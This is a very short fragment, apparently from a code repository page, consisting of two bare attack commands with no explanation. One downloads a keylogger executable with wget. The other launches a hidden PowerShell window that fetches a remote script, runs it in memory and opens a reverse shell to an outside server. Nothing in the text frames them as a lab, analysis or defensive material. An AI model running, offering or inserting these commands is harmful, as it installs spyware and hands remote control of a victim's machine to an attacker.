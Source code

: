 wget https://github.com/Jango47/reverseShell/releases/download/keylogger/keylogger.exe
powershell -WindowStyle Hidden -Command "IEX (IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell (Resolve-DnsName jangosserver.eu).IPAddress 87"
